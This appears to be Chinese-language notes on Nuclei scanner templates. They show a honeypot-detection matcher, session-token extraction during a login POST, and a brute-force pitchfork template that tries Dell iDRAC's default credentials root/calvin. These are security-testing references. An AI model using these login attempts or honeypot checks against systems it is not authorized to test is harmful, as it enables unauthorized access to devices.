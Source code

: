 一个简单的判断蜜罐的示例

```yaml
      - type: word
        words:
          - "荣耀立方"
          - 'var model = "LW-N605R"'
          - 'password'
          - 'success'
          - 'tomcat'
        part: body
        negative: true
        condition: and
```

**Dynamic variabe**

```yaml
  - method: POST
    path:
      - "{{BaseURL}}/login.php"

    body: "username=admin&password=password&Login=Login&user_token={{session}}"

    matchers:
      - type: kval
        name: session
        internal: true
        part: body
        kval:
          - PHPSESSID
```

---

### 爆破

**pitchfork**
```yaml
id: dell-idrac-default-login
info:
  name: Dell iDRAC6/7/8 Default login
  author: kophjager007
  severity: high
  tags: dell,idrac,default-login

requests:
  - method: POST
    path:
      - "{{BaseURL}}/data/login"

    body: "user={{username}}&password={{password}}"

    headers:
      Content-Type: "application/x-www-form-urlencode"
      Referer: "{{BaseURL}}/login.html"

    attack: pitchfork
    payloads:
      username:
        - root

      password:
        - calvin

    cookie-reuse: true
```